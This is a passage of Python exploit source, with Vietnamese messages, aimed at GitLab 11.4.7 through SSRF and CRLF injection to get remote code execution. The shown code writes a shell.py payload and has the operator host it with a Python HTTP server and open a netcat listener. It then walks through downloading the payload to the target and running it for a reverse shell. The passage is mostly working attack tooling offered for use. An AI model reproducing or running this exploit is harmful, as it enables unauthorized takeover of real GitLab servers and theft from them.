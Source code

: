 with open(\"shell.py\", \"w\") as shell_file:

shell_file.write(python_shell)

print(\"\[+\] File shell.py đã được tạo\")

return True

except Exception as e:

print(f\"\[-\] Lỗi khi tạo file shell.py: {e}\")

return False

def main():

print(\"\[+\] Chương trình khai thác GitLab 11.4.7 SSRF + CRLF RCE\")

print(\"\[+\] Target:\", gitlab_url)

\# Đăng nhập và lấy CSRF token

login()

\# Lấy thông tin project

project_token, namespace_id = get_project_info()

\# Tạo shell.py

create_shell_file()

\# Hỏi người dùng về HTTP server

print(\"\[+\] Hãy bắt đầu HTTP server để có thể tải shell.py lên máy mục
tiêu\")

print(\"\[+\] Lệnh: python3 -m http.server 80\")

print(\"\[+\] Và bắt đầu listener: nc -lvnp\", lport)

http_server = input(\"Đã khởi động HTTP server chưa? (Y/n): \") or \"Y\"

if http_server.upper() != \"Y\":

print(\"\[-\] Vui lòng khởi động HTTP server trước khi tiếp tục\")

sys.exit(1)

print(\"\[+\] Quá trình khai thác có 2 bước:\")

print(\"\[+\] Bước 1: Tải shell.py về máy mục tiêu\")

print(\"\[+\] Bước 2: Thực thi shell.py để lấy reverse shell\")

option = input(\"Thực hiện bước nào? (1/2): \")

if option not in \[\"1\", \"2\"\]:

print(\"\[-\] Lựa chọn không hợp lệ\")

sys.exit(1)

\# Thực hiện khai thác

